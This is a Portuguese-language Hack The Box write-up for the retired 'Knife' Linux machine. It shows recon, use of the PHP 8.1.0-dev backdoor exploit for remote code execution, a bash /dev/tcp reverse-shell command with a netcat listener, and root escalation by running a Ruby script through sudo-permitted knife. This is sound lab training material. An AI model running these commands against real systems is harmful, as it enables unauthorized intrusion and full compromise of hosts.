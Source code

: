```yaml
---
title: HTB Knife Writeup
author: Hastur
date: 2021-09-03 21:00:00 -0300
categories: [Writeups, Hack The Box - Retired]
tags: [HTB, Retired, Linux, Very Easy]
image: "/htb/htb-knife-logo.png"
---
```


<img src="/htb/htb-knife-logo.png">

<br>


| Nome | Knife       |
|------|-------------|
|IP    | 10.10.10.242|
|Pontos| 20          |
|OS    | Linux       |
|Nível | Easy        |

<br>

## RECON

### Nmap
```
┌──(hastur㉿hastur)-[~]
└─$ sudo nmap -v -sCV -p- -Pn -O 10.10.10.242 --min-rate=512 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea

```
Encontramos somente as portas 22 e 80 abertas. Vamos começar pela porta 80.

### Porta 80

<img src="/htb/htb-knife-1.png">

Apenas uma página simples sem links para seguir.

A varredura com gobuster também não trouxe nada relevante.

Vamos tentar o whatweb para obter mais informações.

```
┌──(hastur㉿hastur)-[~]
└─$ whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Conseguimos identificar que o server roda em PHP na versão "PHP/8.1.0-dev", vamos procurar algum exploit.

```
┌──(hastur㉿hastur)-[~]
└─$ searchsploit "PHP 8.1.0-dev" 
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                       | php/webapps/49933.py
```
Esta versão do PHP possui uma vulnerabilidade que permite execução de código remoto via manipulação do user-agent.

Vamos copiar o exploit para nosso diretório e nomeá-lo como "exploit.py" para testá-lo.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ ls -la
total 84
drwxr-xr-x  20 root root  4096 May 18 13:25 .
drwxr-xr-x  20 root root  4096 May 18 13:25 ..
lrwxrwxrwx   1 root root     7 Feb  1  2021 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Jul 23 13:37 boot
drwxr-xr-x   2 root root  4096 May  6 14:10 cdrom
drwxr-xr-x  19 root root  4020 Sep  3 04:33 dev
drwxr-xr-x  99 root root  4096 May 18 13:25 etc
drwxr-xr-x   3 root root  4096 May  6 14:44 home
lrwxrwxrwx   1 root root     7 Feb  1  2021 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Feb  1  2021 libx32 -> usr/libx32
drwx------   2 root root 16384 May  6 14:08 lost+found
drwxr-xr-x   2 root root  4096 May 18 13:20 media
drwxr-xr-x   2 root root  4096 May 18 13:20 mnt
drwxr-xr-x   5 root root  4096 May 18 13:20 opt
dr-xr-xr-x 358 root root     0 Sep  3 04:32 proc
drwx------   7 root root  4096 May 18 13:26 root
drwxr-xr-x  27 root root   820 Sep  3 16:47 run
lrwxrwxrwx   1 root root     8 Feb  1  2021 sbin -> usr/sbin
drwxr-xr-x   6 root root  4096 May 18 13:20 snap
drwxr-xr-x   2 root root  4096 Feb  1  2021 srv
dr-xr-xr-x  13 root root     0 Sep  3 04:32 sys
drwxrwxrwt  16 root root 12288 Sep  4 00:00 tmp
drwxr-xr-x  15 root root  4096 May 18 13:20 usr
drwxr-xr-x  14 root root  4096 May  9 04:22 var

$ 

```

Ao executarmos o exploit, temos uma versão bem resumida de RCE em forma de bash.

Para podermos explorar de forma efetiva, precisamos de um tty shell, vamos iniciar um netcat ouvindo a conexão reversa.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ nc -vlnp 8443
listening on [any] 8443 ...
```

Agora vamos enviar um payload no terminal do RCE.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.130/8443 0>&1"
```

Checando no netcat, conseguimos um shell.

<img src="/htb/htb-knife-2.png">

E dentro do diretório do usuário "james", conseguimos flag do usuário.

<img src="/htb/htb-knife-3.png">
<br>
## ESCALAÇÃO DE PRIVILÉGIOS

Já dentro do server, vamos fazer a enumeração local, com o comando `sudo -l`, encontramos algo interessante:

<img src="/htb/htb-knife-4.png">

O usuário tem permissão de executar `/usr/bin/knife` com privilégios de administrador sem uso de senha, vamos enumerar este binário.

<img src="/htb/htb-knife-5.png">

Quando enumeramos o diretório real do binário, podemos ver que se trata de um diretório de instalação do ruby.

<img src="/htb/htb-knife-6.png">

Ao tentar executar o programa, ele nos retora uma grande lista de opções de argumento, entre elas uma bem interessante:

<img src="/htb/htb-knife-7.png">

Isso significa que podemos executar scripts em ruby, vamos voltar para o diretorio do usuário james e criar um script.

```
james@knife:~$ pwd                                   
pwd
/home/james
james@knife:~$ echo 'exec "/bin/bash -i"' > hastur.rb
```
Ao executar `sudo /usr/bub/knife exec hastur.rb` temos nosso shell com root e podemos enumerar a flag.

<img src="/htb/htb-knife-8.png">

E comprometemos o server!!
<br>

<img src="/htb/hackerman.gif">
<br>
### Referências

| Vulnerabilidade                           | Url                                                                                                             |
|-------------------------------------------|-----------------------------------------------------------------------------------------------------------------|
| PHP 8.1.0-dev development version backdoor| [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)|


